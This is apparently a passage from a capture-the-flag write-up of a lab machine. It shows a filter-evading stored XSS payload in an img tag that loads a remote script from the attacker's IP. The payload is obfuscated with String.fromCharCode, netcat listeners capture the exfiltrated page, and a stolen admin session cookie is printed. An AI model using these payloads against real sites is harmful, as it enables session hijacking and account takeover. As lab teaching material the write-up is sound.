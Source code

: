 After trying out some methods or using a XSS Framework, the following JavaScript code will work without getting filtered because the web page assumes that it is an URL and thus doesn't need to be filtered:
```markdown
<img src="x/><script>javascript.alert(1)</script>">
```

The XSS will access a web server on my local machine to test if we get code execution.
```markdown
<img src="x/><script>eval(String.fromCharCode(document.write('<script src="http://10.10.14.22/holiday.js"></script>');))</script>">
```

Now the JavaScript code needs to get encoded in ordinal or numeric values for this to work.
For this task I write a Python script named **js_encode.py** that can be found in this repository.
```markdown
python js_encode.py
```

This will convert the JavaScript code into ordinal values that can be pasted into the notes field and send to the server:
```markdown
<img src="x/><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,50,50,47,104,111,108,105,100,97,121,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59))</script>">
```

I listen on port 80 on my local machine with `nc -lvnp 80` and send the encoded JavaScript as a note and after a while it will make a connection on my local web server which means we got a successful XSS exploit.

#### Creating the XSS payload

Now we know that this XSS method works, we will create a payload that will get the cookie from the web server.
The payload is called **holiday_payload.js** and can be found in this repository.

Making this available with `python -m SimpleHTTPServer` on the local web server and starting a connection on port 8000 with `nc -lvnp 8000 > tmp` and then adding the JavaScript from before in the notes.
This will download the **holiday_payload.js** file, which will start a connection from the box' localhost on our port 8000 and write the response into the file _tmp_. The contents of this file are URL-encoded, so it has to be decoded first with any URL-decoder tool or with Python:
```python
import urllib

print urllib.unquote("""cookie=%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en""")
```

It is a lot of output but the most interesting part is at the bottom:
```html
<form action="/admin/approve" method="POST">
  <input type="hidden" name="cookie" value="connect.sid&#x3D;s%3Ae84d7b00-29b6-11ea-ac69-430b6dad86bc.qNvlTwak%2F94Gl08D%2FHAIl2VHQJR7Ou2X7BzovmxNt8M">
  <input type="hidden" name="id" value="8">
  <button class="button" type="submit">Approve</button>
</form>
```
